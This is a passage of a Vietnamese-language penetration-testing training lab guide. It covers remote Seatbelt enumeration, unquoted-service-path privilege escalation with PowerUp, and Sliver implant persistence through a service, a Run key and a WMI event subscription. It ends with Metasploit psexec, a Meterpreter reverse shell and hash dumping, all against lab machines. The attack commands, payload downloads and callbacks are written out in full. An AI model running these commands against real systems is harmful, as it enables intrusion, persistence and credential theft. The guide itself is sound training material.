Hãy nhớ rằng chúng ta đã tìm thấy một số thông tin đăng nhập trong bài thực hành 2.1. Chúng ta sẽ sử dụng `bgreen/Password1` để truy vấn một hệ thống khác nhằm lấy thông tin về hệ thống đó.

Hãy nhớ rằng các lệnh có thể chạy từ xa đều có tiền tố là `+`. Chúng ta hãy xem xét các lệnh mà chúng ta có thể chạy từ xa để lấy thông tin từ các máy chủ khác.

```bash
Seatbelt.exe -q | findstr +
```

```bash
C:\Tools>Seatbelt.exe -q | findstr +
Available commands (+ means remote usage is supported):
    + AMSIProviders          - Providers registered for AMSI
    + AntiVirus              - Registered antivirus (via WMI)
    + AuditPolicyRegistry    - Audit settings via the registry
    + AutoRuns               - Auto run executables/scripts/programs
    + DNSCache               - DNS cache entries (via WMI)
    + DotNet                 - DotNet versions
    + ExplorerRunCommands    - Recent Explorer "run" commands
    + Hotfixes               - Installed hotfixes (via WMI)
    + InterestingProcesses   - "Interesting" processes - defensive products and admin tools
    + LAPS                   - LAPS settings, if installed
    + LastShutdown           - Returns the DateTime of the last system shutdown (via the registry).
    + LocalGroups            - Non-empty local groups, "-full" displays all groups (argument == computername to enumerate)
    + LocalUsers             - Local users, whether they're active/disabled, and pwd last set (argument == computername to enumerate)
    + LogonSessions          - Windows logon sessions
    + LSASettings            - LSA settings (including auth packages)
    + MappedDrives           - Users' mapped drives (via WMI)
    + NetworkProfiles        - Windows network profiles
    + NetworkShares          - Network shares exposed by the machine (via WMI)
    + NTLMSettings           - NTLM authentication settings
    + PowerShell             - PowerShell versions and security settings
    + ProcessOwners          - Running non-session 0 process list with owners. For remote use.
    + PSSessionSettings      - Enumerates PS Session Settings from the registry
    + PuttyHostKeys          - Saved Putty SSH host keys
    + PuttySessions          - Saved Putty configuration (interesting fields) and SSH host keys
    + RDPSavedConnections    - Saved RDP connections stored in the registry
    + RDPSessions            - Current incoming RDP sessions (argument == computername to enumerate)
    + SCCM                   - System Center Configuration Manager (SCCM) settings, if applicable
    + ScheduledTasks         - Scheduled tasks (via WMI) that aren't authored by 'Microsoft', "-full" dumps all Scheduled tasks
    + Sysmon                 - Sysmon configuration from the registry
    + UAC                    - UAC system policies via the registry
    + WindowsAutoLogon       - Registry autologon information
    + WindowsDefender        - Windows Defender settings (including exclusion locations)
    + WindowsEventForwarding - Windows Event Forwarding (WEF) settings via the registry
    + WindowsFirewall        - Non-standard firewall rules, "-full" dumps all (arguments == allow/deny/tcp/udp/in/out/domain/private/public)
    + WSUS                   - Windows Server Update Services (WSUS) settings, if applicable
```

Hãy chạy mô-đun UAC này trên hệ thống `10.130.10.25`.

```bash
# Seatbelt.exe -q UAC -computername=10.130.10.25 -username=hiboxy\bgreen -password=Password1

Seatbelt.exe -q UAC -computername=10.130.10.25
```

Chúng ta có thể thấy rằng UAC đang được bật, và chúng ta cần tài khoản `Administrator built-in (RID 500)` để thực hiện `lateral movement`.

Nếu bạn còn thời gian, hãy chạy một số module khác đối với hệ thống từ xa này.




## Kết luận

Seatbelt rất hữu ích để thực hiện kiểm tra trên cả hệ thống cục bộ và hệ thống từ xa. Các bước kiểm tra được thiết kế để tìm ra những vấn đề có ích nhất cho người kiểm thử xâm nhập.

# Lab 3.1. Windows Privilege Escalation

## Mục tiêu

- Chúng ta sẽ sử dụng beRoot.exe và PowerUp để tìm các vấn đề leo thang đặc quyền cục bộ.

- Chúng tôi sẽ lợi dụng lỗ hổng cấu hình dịch vụ Windows để leo thang đặc quyền cục bộ.

## Thiết lập phòng thí nghiệm

Máy ảo được sử dụng:

- Windows 10.

Bạn chỉ cần khởi động máy ảo Windows cho bài thực hành này.

Trong trường hợp bạn đã từng thực hiện thí nghiệm này trước đây, hãy cùng nhau dọn dẹp nhanh một chút.

Mở cửa sổ lệnh CMD với quyền quản trị bằng cách nhấp vào liên kết trên màn hình máy tính của bạn có tên `Command Prompt - Run as Administrator`, sau đó nhập lệnh sau:

```bash
net localgroup administrators john /del
net user john /del
del "C:\Program Files\VideoStream\1337.exe"
```

## Hướng dẫn thực hành từng bước

### 1. Đăng nhập vào Windows

Đăng xuất khỏi Windows. Nhấp vào menu Bắt đầu, nhấp vào biểu tượng đầu và vai ở phía trên cùng bên trái, sau đó nhấp vào "Đăng xuất".

Đăng nhập vào máy tính Windows bằng thông tin đăng nhập bên dưới:

- Tên người dùng: `.\notadmin`.

- Mật khẩu: `notadmin`.

Đây là tài khoản người dùng thông thường không có quyền quản trị. Chúng tôi không sử dụng tài khoản `sec560` này vì tài khoản hiện tại đã có quyền quản trị cục bộ.

### 2. Chạy beRoot.exe

Công cụ đầu tiên chúng ta sẽ sử dụng để kiểm tra các vấn đề leo thang đặc quyền là `beRoot.exe`. Để chạy `beRoot.exe`, vui lòng mở cửa sổ dòng lệnh thông thường và chạy các lệnh sau, và đừng lo lắng nếu cuối kết quả có một số lỗi:

```bash
cd C:\Tools\BeRoot
beRoot.exe
```



### 3. Xem xét kết quả của beRoot

beRoot.exe cung cấp phản hồi ngay lập tức và sẽ hiển thị cho bạn một số vấn đề có thể dẫn đến leo thang đặc quyền. Nó sẽ xác định vấn đề đường dẫn dịch vụ không được trích dẫn với một dịch vụ có tên là `Video Stream`.

Đường dẫn của dịch vụ là `C:\Program Files\VideoStream\1337 Log\checklog.exe`, nhưng đường dẫn nhị phân của dịch vụ lại không có dấu ngoặc kép! Có rất nhiều thông tin đầu ra. Hãy cuộn lên đầu trang để tìm thông tin được hiển thị bên dưới.



Việc thiếu dấu ngoặc kép trong biến môi trường PATH là tin tốt cho kẻ tấn công!

### 4. Chạy PowerUp.ps1

Bây giờ chúng ta hãy thử kịch bản PowerShell `PowerUp.ps1`. PowerUp hiện là một phần của PowerShell Empire và là một trong những cơ chế chính được sử dụng để thực hiện leo thang đặc quyền cục bộ. Đây là một kịch bản PowerShell thuần túy và do đó có cơ hội chạy trên máy mục tiêu cao hơn so với beRoot.exe. Trong trường hợp sau, có khả năng tệp thực thi beRoot.exe của bạn bị chặn do kiểm soát ứng dụng, chẳng hạn.

Để khởi chạy `PowerUp.ps1`, hãy mở cửa sổ PowerShell và chạy các lệnh sau. Khi được nhắc, nhấn Enter R để chạy tập lệnh (Run once).

```bash
cd C:\Tools
Import-Module .\PowerUp.ps1
R
```



Bây giờ, chúng ta hãy tiến hành kiểm tra.

```bash
Invoke-AllChecks
```



Lệnh này sẽ mất vài giây, vì PowerUp.ps1 sẽ thực hiện tất cả các bước kiểm tra nâng cao quyền.

PowerUp sẽ tìm thấy một số thứ mà beRoot không tìm thấy. Hãy cẩn thận với những kết quả sai lệch khi chỉ sử dụng một công cụ!

### 5. Xem xét kết quả của PowerUp

PowerUp có thể sẽ trả về một vài kết quả thú vị:

- Đường dẫn dịch vụ không được trích dẫn cho dịch vụ `Video Stream` (như được xác định bởi BeRoot.exe)

- Một số lỗ hổng có thể dẫn đến tấn công chiếm quyền điều khiển DLL trong thư mục `%PATH%`.

- Một số lỗ hổng liên quan đến các tệp thực thi dịch vụ và quyền truy cập.



Kết quả của cả beRoot.exe và PowerUp đều cần được kiểm tra thủ công, vì đôi khi chúng hiểu sai các quyền lồng nhau, chẳng hạn. Hãy thử khai thác các vấn đề đã được báo cáo!

### 6. Xem lại dịch vụ 'Video Stream' trong mục dịch vụ.

Trong cửa sổ dòng lệnh beRoot, hãy mở cửa sổ services.msc:

```bash
services.msc
```

Trong danh sách dịch vụ, cuộn xuống Video Streamdịch vụ đó và nhấp đúp vào. Bạn sẽ thấy thông tin chi tiết liên quan đến dịch vụ Video Stream và lưu ý rằng đường dẫn đến tệp thực thi không có dấu ngoặc kép.

Hãy tận dụng điều đó!



### 7. Khai thác lỗ hổng bằng PowerUp

PowerUp cung cấp một cách tiện lợi để khai thác các lỗ hổng đã được xác định. Nếu bạn xem xét các mục được PowerUp báo cáo, bạn sẽ nhận thấy rằng nó bao gồm một thẻ `AbuseFunction`, cung cấp cú pháp sao chép-dán dễ dàng để thử khai thác các vấn đề đã được xác định.

Để thử cách này với dịch vụ Video Stream dễ bị tổn thương, chúng ta cần cuộn lên một chút đến vài kết quả được báo cáo đầu tiên và sao chép thông `AbuseFunctiontin` được báo cáo: `Write-ServiceBinary -ServiceName 'Video Stream' -Path <HijackPath>`.

Vui lòng sao chép và dán chuỗi này vào cửa sổ dòng lệnh PowerShell. Vui lòng chưa nhấn ENTER!

### 8. Điều chỉnh "HijackPath"

Chúng ta đang lạm dụng vấn đề đường dẫn dịch vụ không được trích dẫn đã được giải thích trong khóa học. Vì tệp thực thi dịch vụ thực tế nằm trong thư mục `C:\Program Files\VideoStream\1337 Log\` và không có khoảng trắng xung quanh đường dẫn đầy đủ, Windows cũng sẽ cố gắng thực thi `C:\Program.exe` hoặc `C:\Program Files\VideoStream\1337.exe`.

Bây giờ chúng ta hãy điều chỉnh "HijackPath" và trỏ nó đến một tệp thực thi có thể ghi được:

```bash
Write-ServiceBinary -ServiceName 'Video Stream' -Path 'C:\Program Files\VideoStream\1337.exe'
```



Lệnh PowerUp ở trên sẽ ghi một tệp thực thi độc hại vào vị trí được chỉ định! Sau khi chạy lệnh AbuseFunction, bạn sẽ thấy tệp thực thi do PowerShell ghi sẽ tạo ra một người dùng có tên là `john` với mật khẩu là `Password123!`. Sau đó, người dùng này sẽ được thêm vào nhóm quản trị viên cục bộ.

### 9. Khởi động lại máy tính

Sau khi chức năng chống lạm dụng PowerShell chạy xong, hãy kiểm tra xem tệp `C:\Program Files\VideoStream\1337.exe` có tồn tại hay không. Nếu có, chúng ta cần khởi động lại dịch vụ để tệp thực thi được chạy với quyền `NT AUTHORITY\SYSTEM`.

Vì đây là dịch vụ tự khởi động, giải pháp khá đơn giản: khởi động lại hệ thống!

### 10. Đăng nhập vào Windows

Đăng nhập vào máy tính Windows của chúng tôi bằng thông tin đăng nhập người dùng của chúng tôi:

- Tên người dùng: `notadmin`.

- Mật khẩu: `notadmin`.

### 11. Xác nhận người dùng đã được thêm

Hãy xác nhận xem người dùng `john` đã được tạo và thêm vào nhóm quản trị viên cục bộ chưa. Để xác minh điều này, hãy chạy các lệnh sau trong cửa sổ dòng lệnh:

```bash
net users
```



```bash
net localgroup Administrators
```



Chúc mừng! Chúng ta vừa nâng cấp từ người dùng không có quyền quản trị lên người dùng có quyền quản trị cục bộ!

Nếu muốn, bạn có thể đăng xuất khỏi tài khoản hiện tại rồi đăng nhập bằng tài khoản mới `john`, tài khoản này hiện là thành viên của nhóm Quản trị viên cục bộ.



Khi hoàn thành, hãy đăng xuất khỏi tài khoản người dùng `notadmin` (hoặc `john`) và đăng nhập lại vào tài khoản người dùng `sec560` để chuẩn bị cho bài thực hành tiếp theo. Mật khẩu mặc định cho tài khoản `sec560` là sec560, trừ khi bạn đã thay đổi nó.

## Phần kết luận

Chúng tôi đã xác định cách phát hiện và khai thác các lỗ hổng leo thang đặc quyền cục bộ bằng cách sử dụng beRoot và PowerUp. Sử dụng các công cụ này, chúng tôi đã có thể leo thang đặc quyền và tạo một người dùng mới trên hệ thống với quyền quản trị.

# Lab 3.3. Persistence (Duy trì truy cập)

## Mục tiêu

- Tạo nhiều loại tệp để lưu trữ lâu dài với Sliver

- Tạo một dịch vụ lưu trữ dữ liệu để tạo phiên Sliver.

- Tạo khóa đăng ký người dùng để lưu trữ dữ liệu.

- Sử dụng bộ lọc WMI để phát hiện các lần đăng nhập không thành công nhằm kích hoạt tính năng lưu trạng thái.

## Thiết lập phòng thí nghiệm

Máy ảo được sử dụng:

- Máy ảo Linux Slingshot.

- Windows 10.

## Hướng dẫn thực hành từng bước

### 1. Thiết lập Sliver để nhận kết nối

Trước tiên, chúng ta cần thiết lập Sliver để nhận kết nối. Khởi chạy Sliver.

```bash
sudo sliver-server
```

Thiết lập trình lắng nghe trên cổng `443` bằng cách chạy lệnh `https` để khởi động trình lắng nghe.

```bash
https
```



### 2. Tạo các gói tin Sliver để duy trì hoạt động.

Hãy cùng xem xét các tùy chọn với `generate`.

```bash
generate -h
```



Lưu ý rằng chúng ta có thể tạo một định dạng `service`. Định dạng này sẽ phản hồi chính xác với bộ điều khiển dịch vụ và sẽ không bị lỗi sau 30 giây. Vấn đề này được thảo luận chi tiết hơn trong mục `560.4`.

Chúng ta hãy tạo hai payload, một cho dịch vụ và một cho tệp thực thi tiêu chuẩn.

```bash
generate --os windows --arch 64bit --skip-symbols --format service --name service --http https://10.130.10.128
generate --os windows --arch 64bit --skip-symbols --format exe --name payload --http https://10.130.10.128
```



Trong một bài kiểm thử xâm nhập thực tế, chúng ta có thể muốn hạn chế quyền truy cập và ngăn chặn việc thực thi payload sau khi thời gian kiểm thử cho phép kết thúc. Chúng ta có thể sử dụng `-w` hoặc `--limit-datetime`.

Giờ chúng ta đã có các tập tin, chúng ta cần chuẩn bị chuyển chúng sang Windows.

### 3. Chuyển tập tin sang Windows

**Hãy mở một cửa sổ dòng lệnh mới cho bước này.**

Các tệp hiện thuộc sở hữu của rootngười dùng này. Hãy xác nhận điều này bằng cách xem nội dung các tệp.

```bash
ls -l *.exe
```

Như bạn thấy ở trên, các tệp có quyền `rwx` truy cập, nhưng chỉ dành cho chủ sở hữu của tệp đó `root`.

Thay đổi quyền sở hữu tệp thực thi (exe) cho người dùng `sec560` và sau đó xác nhận quyền sở hữu các tệp.

```bash
sudo chown sec560:sec560 *.exe
ls -l *.exe
```



Bây giờ chúng ta cần chạy một máy chủ web để có thể lấy các tập tin trong Windows. Hãy chạy máy chủ web Python.



Tiếp theo, chúng ta sẽ chuyển sang Windows và tải xuống các tập tin bằng PowerShell. Mở cửa sổ PowerShell và tải các tập tin chứa thông tin cần thiết xuống màn hình Desktop.

```bash
cd Desktop
wget http://10.130.10.128:8000/payload.exe -OutFile payload.exe
wget http://10.130.10.128:8000/service.exe -OutFile service.exe
```


Giờ chúng ta đã có các tập tin trên Windows, hãy tạo khả năng lưu trữ dữ liệu đầu tiên bằng cách sử dụng một dịch vụ.

### 4. Service Persistence

Trước tiên, chúng ta sẽ tạo một dịch vụ theo cách thủ công. Lệnh chúng ta sử dụng được giải thích chi tiết hơn trong mục 560.4. Để làm điều này, chúng ta cần quyền quản trị viên trong Windows. Mở liên `Command Prompt - Run as Administratorkết` trên màn hình Desktop của máy ảo Windows 10 như hình bên dưới.



Chúng ta sẽ thảo luận chi tiết về lệnh sc này trong mục 560.4. Hiện tại, chúng ta chỉ cần sử dụng lệnh như hiện trạng và tạo một dịch vụ có tên là `persist`. Chạy lệnh dưới đây trong cửa sổ nhắc lệnh CMD mà bạn vừa mở.

```bash
sc create persist binpath= "c:\Users\sec560\Desktop\service.exe" start= auto
```



Hãy kiểm tra cơ chế duy trì kết nối. Khởi động lại các máy chủ Windows và bạn sẽ thấy một phiên Sliver mới trên máy ảo Linux Slingshot của mình.



Tương tác với phiên này bằng cách sử dụng hai ký tự đầu tiên của ID phiên `sessions -i`. Trong ví dụ này, đó là `a1e6a0b5` nên chúng ta sử dụng ID rút gọn là 5c. ID phiên của bạn sẽ khác!



Hãy xem chúng ta có quyền truy cập ở mức độ nào với `whoami`.

```bash
whoami
```



Như bạn thấy, dịch vụ chạy với quyền SYSTEM, cho phép chúng ta có quyền truy cập cao nhờ cơ chế duy trì quyền này.

Hãy dọn dẹp hệ thống Windows bằng cách tắt và xóa dịch vụ đó.

Mở cửa sổ CMD với quyền quản trị viên trên Windows và tắt tiến trình và dịch vụ bằng các lệnh sau:

```bash
sc stop persist
sc delete persist
```



### 5. Tính năng duy trì hoạt động của HKCU

Trên máy tính chạy hệ điều hành Windows, hãy mở cửa sổ lệnh CMD thông thường.


Chạy lệnh `reg` dưới đây để tạo khóa đăng ký cho người dùng hiện tại.

```bash
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "User Persist" /t REG_SZ /F /D "C:\Users\sec560\Desktop\payload.exe"
```



Các tùy chọn cho lệnh này là:

- `reg` - lệnh cần chạy.

- `add` - thêm khóa.

- `"HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"`- Vị trí để thêm khóa

- `/V "User Persist"` - Tên của khóa (Giá trị)

- `/t REG_SZ` - kiểu Chuỗi

- `/F` - Buộc ghi đè nếu tệp đã tồn tại

- `/D "C:\Users\sec560\Desktop\payload.exe"` - dữ liệu, tập tin thực thi để chạy.

Chúng ta có thể sử dụng `HKLM (HKEY Local Machine)` thay thế, và điều này sẽ hoạt động cho bất kỳ người dùng nào đăng nhập vào hệ thống, nhưng nó yêu cầu quyền truy cập nâng cao để sử dụng khóa này. Chúng ta đang sử dụng `HKCU (HKEY Current User)` nên nó không yêu cầu quyền truy cập nâng cao.

Để kiểm tra điều này, chỉ cần đăng xuất khỏi Windows rồi đăng nhập lại với tư cách người dùng `sec560`. Khi đăng nhập lại, bạn sẽ thấy một phiên làm việc mới trong Sliver.



Tương tác với phiên này bằng cách sử dụng hai ký tự đầu tiên của ID phiên `sessions -i`. Trong ví dụ này, đó là `d725fb0a` nên chúng ta sử dụng ID rút gọn là `d7`. ID phiên của bạn sẽ khác!

```bash
sessions -i d7
```



Chạy lệnh `whoami` để xem quyền truy cập hiện tại.

```bash
whoami
```



Hãy dọn dẹp và xóa khóa này. Mở lại cửa sổ lệnh CMD thông thường và xóa khóa đó.

```bash
reg delete "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "User Persist" /F
```



Các tùy chọn cho lệnh này là:

- `reg` - lệnh cần chạy.

- `delete` - xóa một khóa.

- `"HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"` - Vị trí để thêm khóa.

- `/V "User Persist"` - Tên của khóa (Giá trị).

### 6. Tính năng lưu trữ bộ lọc sự kiện WMI

Bộ lọc sự kiện WMI cho phép linh hoạt rất nhiều trong việc kích hoạt payloads của chúng ta. Chúng ta sẽ thiết lập một trình lắng nghe sự kiện cho việc đăng nhập không thành công (ID sự kiện 4625) cho người dùng `fakeuser`. Điều này sẽ cho phép chúng ta kích hoạt payloads của mình khi đăng nhập không thành công đối với một người dùng không tồn tại!

Chúng ta sẽ sử dụng các lệnh PowerShell bên dưới để thiết lập bộ lọc. Bạn cần có quyền quản trị viên trong cửa sổ PowerShell để thiết lập việc này.



Quá trình thiết lập gồm ba phần.

- Lệnh đầu tiên chúng ta sẽ sử dụng để thiết lập Bộ lọc Sự kiện `-Class __EventFilter` với tên là `UPDATER`. Sau đó, truy vấn sẽ tìm kiếm các lần đăng nhập thất bại (ID Sự kiện 4625) trong đó thông tin đăng nhập khớp với fakeuser.

- Phần thứ hai thiết lập trình xử lý dữ liệu, hay nói cách khác là xử lý khi bộ lọc khớp. Trong trường hợp này, các kết quả khớp với UPDATERbộ lọc sẽ chạy payloads của chúng ta nằm tại `C:\Users\sec560\Desktop\payload.exe`.

- Bước cuối cùng thiết lập liên kết để tìm kiếm tác nhân kích hoạt và chạy trình tiêu thụ (payload) của chúng ta.

Các lệnh ở đây khá phức tạp. Vui lòng sao chép và dán các lệnh này vào cửa sổ PowerShell với quyền quản trị viên.

```bash
$filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments @{EventNamespace = 'root/cimv2'; Name = "UPDATER"; Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_NTLogEvent' AND Targetinstance.EventCode = '4625' And Targetinstance.Message Like '%fakeuser%'"; QueryLanguage = 'WQL'}

$consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments @{Name = "UPDATER"; CommandLineTemplate = "C:\Users\sec560\Desktop\payload.exe"}

$FilterToConsumerBinding = Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments @{Filter = $Filter; Consumer = $Consumer}
```



Bây giờ chúng ta đã thiết lập bộ lọc, hãy chuyển sang Linux, mở một cửa sổ terminal mới và thử đăng nhập bằng `smbclient` tài khoản của chúng ta `fakeuser`. Quá trình này có thể mất một lúc để bộ lọc phát hiện việc đăng nhập. Bạn có thể cần đợi đến một phút.

```bash
smbclient '\\10.130.10.25\c$' -U fakeuser fakepass
```



Sau đó, bạn sẽ thấy một phiên làm việc mới trong Sliver!



Tương tác với phiên này bằng cách sử dụng hai ký tự đầu tiên của ID phiên `sessions -i`. Trong ví dụ này, đó là `750cb0ba` nên chúng ta sử dụng ID rút gọn là `75`. ID phiên của bạn sẽ khác!

```bash
sessions -i 75
```



Một lần nữa, hãy xem chúng ta đang chạy với tư cách người dùng nào `whoami`.

```bash
whoami
```



Như bạn thấy, điều này cấp quyền truy cập cấp HỆ THỐNG trên Windows. Nếu chúng ta mất quyền truy cập, tất cả những gì chúng ta cần làm là thử đăng nhập lại với tư cách người dùng không tồn tại `fakeuser` để có được một phiên làm việc mới.

Phương pháp chúng tôi sử dụng ở đây là thủ công và khá phức tạp, và điều quan trọng là phải hiểu những nguyên tắc cơ bản về cách thức hoạt động của nó. Tuy nhiên, có những lựa chọn khác để thực hiện việc này dễ dàng hơn:

- Metasploit - sử dụng mô-đun `windows/local/wmi_persistence`.

- Empires - sử dụng mô-đun `persistence/elevated/wmi`.

Hãy xóa bộ lọc này, bộ lọc và trình tiêu thụ bằng cửa sổ PowerShell hiện có mà bạn đang mở.

```bash
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%Updater%'" | Remove-WmiObject -Verbose

Get-WmiObject -Namespace root\subscription -Class __EventFilter -Filter "__Path LIKE '%UPDATER%'" | Remove-WmiObject -Verbose

Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer -Filter "__Path LIKE '%UPDATER%'" | Remove-WmiObject -Verbose
```



## Phần kết luận

Chúng tôi đã sử dụng nhiều phương pháp khác nhau để duy trì quyền truy cập vào hệ thống Windows. Phương pháp bạn sử dụng phụ thuộc vào cấp độ quyền truy cập và cách bạn chọn để ẩn mình. Duy trì quyền truy cập thông qua việc kiên trì là một phần rất quan trọng của kiểm thử xâm nhập. Việc phải nỗ lực rất nhiều để giành được quyền truy cập rồi lại đánh mất nó là điều vô cùng khó chịu đối với bất kỳ người kiểm thử nào!

# Lab 3.4. MSF psexec, hashdumping và Mimikatz

## Mục tiêu

- Sử dụng mô-đun khai thác Metasploit psexecđể triển khai payloads Meterpreter lên máy tính Windows mục tiêu bằng phiên SMB đã được xác thực.

- Để khám phá khả năng của Meterpreter trong việc giành quyền truy cập và trích xuất mã băm từ máy mục tiêu.

## Thiết lập phòng thí nghiệm

Các máy ảo được sử dụng:

- Slingshot Linux.

- Windows 10.

Bạn có thể ping địa chỉ 10.130.10.25 từ máy ảo Slingshot Linux:

```bash
ping -c 4 10.130.10.25
```



## Hướng dẫn thực hành từng bước

### 1. Khởi chạy Metasploit

```bash
msfconsole
```



Bây giờ chúng ta hãy chọn mô-đun `psexec` khai thác từ Metasploit, mà chúng ta có thể sử dụng để khiến mục tiêu chạy payload của Metasploit:

```bash
use exploit/windows/smb/psexec
```



```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

Tiếp theo, chúng ta cần cho Metasploit biết mục tiêu mà nó nên tấn công `psexec`, cụ thể là Web01 `10.130.10.25`.

```bash
set RHOSTS 10.130.10.25
```

Bây giờ chúng ta cần thiết lập `LHOST`, nơi mà `reverse_tcpstager` sẽ kết nối trở lại. Hãy đặt nó thành giao diện `tun0` của bạn:

```bash
set LHOST tun0
```

Hãy cấu hình mô-đun khai thác của bạn `psexec` với tên miền là `hiboxy`, tên người dùng là `bgreen` và mật khẩu là `Password1`. Người dùng `hiboxy\bgreen` nằm trong nhóm quản trị viên của máy này.

```bash
set SMBUser bgreen
set SMBDomain hiboxy
set SMBPass Password1
```



Như chúng ta đã thấy, `show options` hình ảnh hiển thị các thiết lập chính cho các mô-đun Metasploit. Nhưng có hàng tá biến bổ sung cho hầu hết các mô-đun có sẵn thông qua cài đặt nâng cao của chúng. Chúng ta có thể xem các tùy chọn này bằng cách chạy lệnh `show advanced`. Hãy thử xem.

```bash
show advanced
```







Ở đây, chúng ta có thể thấy nhiều tùy chọn cho phép chúng ta chỉ định những thứ như cổng máy khách cục bộ (`CPORT`) để sử dụng khi khởi chạy một cuộc tấn công, một chỉ báo về việc có tạo một dịch vụ thường trực sẽ chạy mỗi khi hệ thống khởi động hay không để chúng ta tự động nhận được phiên Meterpreter được gửi lại khi hệ thống khởi động (`SERVICE_PERSIST`), và một thiết lập của `SERVICE_FILENAME`. Biến này có thể được đặt thành một tên mà tệp payloads sẽ được ghi vào trên máy mục tiêu để dịch vụ có thể thực thi nó. Một lần nữa, theo mặc định, `SERVICE_FILENAME` là một chuỗi giả ngẫu nhiên. Để tinh tế hơn, chúng ta có thể muốn thay đổi nó thành một cái gì đó có nhiều khả năng được mong đợi trên máy mục tiêu, chẳng hạn như svchost.

Tạm thời hãy bỏ qua những lựa chọn này. Chuỗi ký tự giả ngẫu nhiên và thời điểm cài đặt khiến cho khả năng hai dịch vụ có cùng tên được cài đặt cùng lúc là rất thấp.

Trước khi tiến hành tấn công, hãy xác nhận các thiết lập đã chính xác bằng cách chạy lệnh này show options. Dưới đây là các tùy chọn cho cuộc tấn công.

```bash
show options
```



### 2. Phát động cuộc tấn công

Trong cửa sổ dòng lệnh Metasploit, hãy tiến hành cuộc tấn công:

```bash
run
```



> Chú ý ở đậy có thể gặp lỗi, nhưng lỗi đó là lỗi `Đây là lỗi máy 10.130.10.25 bị mất secure channel với domain HIBOXY. Cách fix chuẩn là rejoin domain hoặc repair secure channel.` Bạn chỉ cần remove và join lại domain là xong, còn tài khoản admin đê join lại Domain thì tùy thuộc vào `Lab2.1`.



Bạn sẽ thấy meterpreter >lời nhắc bây giờ.

Hãy chú ý đến kết quả hiển thị trên màn hình. Chúng ta có thể thấy các hành động sau đây được thực hiện bởi Metasploit:

- 1: Metasploit tự động khởi động một trình xử lý ngược lắng nghe trên cổng cục bộ `4444`, chờ kết nối `reverse_tcp` được thiết lập lại. Đây `LPORT` là giá trị mặc định `4444` cho hầu hết các payload của Metasploit. Chúng ta có thể thay đổi điều đó bằng cách đặt `LPORT` giá trị khác.

- 2: Sau đó, nó kết nối với máy chủ mục tiêu.

- 3: Nó xác thực với máy mục tiêu với tư cách người dùng bgreen.

- 4: Sau đó, nó nhận ra rằng máy mục tiêu đã cài đặt PowerShell.

- 5: Sau đó, nó thực thi tải trọng bằng cách khởi động dịch vụ.

- 6: Nếu dịch vụ khởi động thành công, nó sẽ gửi giai đoạn đó đến đích (tải lên bằng trình xử lý giai đoạn).

- 7: Và cuối cùng, chúng ta có một phiên Meterpreter.

### 3. Meterpreter

Bây giờ chúng ta đang ở trong phiên Meterpreter. Để xem tài khoản người dùng mà chúng ta đang sử dụng, hãy chạy lệnh sau `getuid`:



Chúng tôi có quyền `SYSTEM` cục bộ trên máy. Vì vậy, chúng tôi bắt đầu với người dùng quản trị (`bgreen`) và sử dụng thông tin đăng nhập để thực thi mã cục bộ `SYSTEM` thông qua `psexec`.

Giờ, với phiên Meterpreter của bạn, hãy lấy các mã băm từ mục tiêu. Chúng ta sẽ sử dụng mô-đun `post/windows/gather/smart_hashdump` để trích xuất mã băm mật khẩu từ hệ thống từ xa. Mô-đun này rất thông minh và sẽ trích xuất mã băm mật khẩu khác nhau tùy thuộc vào vai trò của hệ thống mục tiêu. Nếu mục tiêu là bộ điều khiển miền, nó sẽ lấy mật khẩu theo cách khác và từ một vị trí khác. Chúng ta sẽ thảo luận chi tiết hơn về điều này sau trong khóa học này.

Hãy xem mô-đun `smart_hashdump` bằng lệnh sau `info`.

```bash
info post/windows/gather/smart_hashdump
```



Thực thi mô-đun `smart_hashdump`.

```bash
run post/windows/gather/hashdump
```

> Lệnh này có thể mất một phút. Việc lấy mã băm mật khẩu mất một chút thời gian. Có thể mất một hoặc hai phút để lấy được mã băm mật khẩu.




Như vậy là chúng ta đã lấy được thành công các mã băm từ máy mục tiêu, sau đó chúng ta có thể giải mã hoặc sử dụng chúng trong một cuộc tấn công `pass-the-hash`, chúng ta sẽ đề cập chi tiết cả hai phương pháp này ở phần sau.

### 4. Thiết lập Mimikatz (Kiwi)

Chuyển sang Windows. Chúng ta sẽ tải một số thông tin đăng nhập của người dùng miền vào bộ nhớ. Giả sử người dùng đó bgreenđã đăng nhập vào hệ thống.

Mở cửa sổ lệnh CMD và chạy:

```bash
runas /user:hiboxy\bgreen /netonly notepad.exe
# Khi được yêu cầu, hãy nhập mật khẩu Password1
```



Thao tác này sẽ mở một cửa sổ Notepad mới với quyền quản trị viên là `hiboxy\bgreen`.

### 5. Chạy Mimikatz

Bây giờ chúng ta hãy nhắm mục tiêu vào hệ thống Windows. Chúng ta sẽ thực hiện việc này trên hệ thống Windows cục bộ để tránh làm sập hệ thống mục tiêu. Mimikatz khá an toàn, nhưng chúng ta cần chuyển sang tiến trình Hệ thống để thực hiện việc này. Nếu nhiều sinh viên cùng lúc chuyển sang một tiến trình hệ thống nhạy cảm, nó có thể gây ra các vấn đề về tính ổn định trên máy chủ.

Thoát khỏi phiên Meterpreter hiện có (không phải Metasploit) bằng cách gõ lệnh `exit`.

```bash
exit
```



Chúng ta cần thay đổi mục tiêu. Hãy chắc chắn rằng bạn đã thay đổi `WINDOWS_ETHERNET0_ADDRESS` sang địa chỉ IP của máy ảo Windows (KHÔNG phải địa chỉ bắt đầu bằng 10.254.25X.X).

```bash
set LHOST eth0
set SMBUSER sec560
set SMBPASS 1234@abcd
unset SMBDomain
set RHOSTS 10.130.10.25
```



> Lưu ý rằng tùy chọn SMBDomain sử dụng unset, chứ không phải set. Ngoài ra, nếu bạn đã thay đổi mật khẩu cho tài khoản `sec560`, hãy sử dụng mật khẩu đó thay thế.

Xác nhận các thiết lập bằng cách chạy lệnh `show options`.

```bash
show options
```



Hãy khai thác hệ thống này.

```bash
run
```



